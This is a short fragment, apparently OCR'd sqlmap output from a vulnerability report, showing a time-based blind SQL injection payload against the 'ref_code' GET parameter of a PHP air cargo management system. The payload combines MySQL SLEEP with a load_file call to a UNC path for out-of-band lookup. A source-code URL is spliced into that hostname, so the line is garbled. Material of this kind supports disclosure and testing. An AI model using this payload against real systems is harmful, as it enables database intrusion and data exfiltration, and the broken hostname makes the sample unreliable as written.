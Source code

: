 
[+] Payloads:

---
Parameter: ref_code (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=trace&ref_code=258044'+(select
load_file('\\\\c5idmpdvfkqycmiqwv299ljz1q7jvej5mtdg44t.https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html\\hag'))+''
AND (SELECT 9012 FROM (SELECT(SLEEP(3)))xEdD) AND 'JVki'='JVki
---
  
